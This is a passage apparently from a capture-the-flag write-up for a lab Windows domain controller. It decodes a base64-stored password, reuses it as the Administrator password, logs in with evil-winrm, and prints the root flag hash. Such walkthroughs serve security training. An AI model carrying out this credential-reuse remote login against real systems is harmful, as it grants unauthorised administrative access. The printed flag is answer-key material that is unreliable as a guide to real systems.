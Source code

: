 ```
echo -n 'YmFDVDNyMWFOMDBkbGVz' | base64 -d

baCT3r1aN00dles
```
## Administrator
The decode string is `baCT3r1aN00dles` . so TempAdmin creds are `TempAdmin:baCT3r1aN00dles`. Since, we read that `TempAdmin` password is same as `Administrato` in `Meeting_Notes_June_2018.html` . We can login as `Administrator` with these creds `Administrator:baCT3r1aN00dles`.

```
/opt/evil-winrm/./evil-winrm.rb -u Administrator -p 'baCT3r1aN00dles' -i 10.10.10.182


*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
cascade\administrator

*Evil-WinRM* PS C:\Users\Administrator\Documents> hostname
CASC-DC1

*Evil-WinRM* PS C:\Users\Administrator\Desktop> gc root.txt
fe4e78d4b0e51b14f11c6e15baf47e6b
```



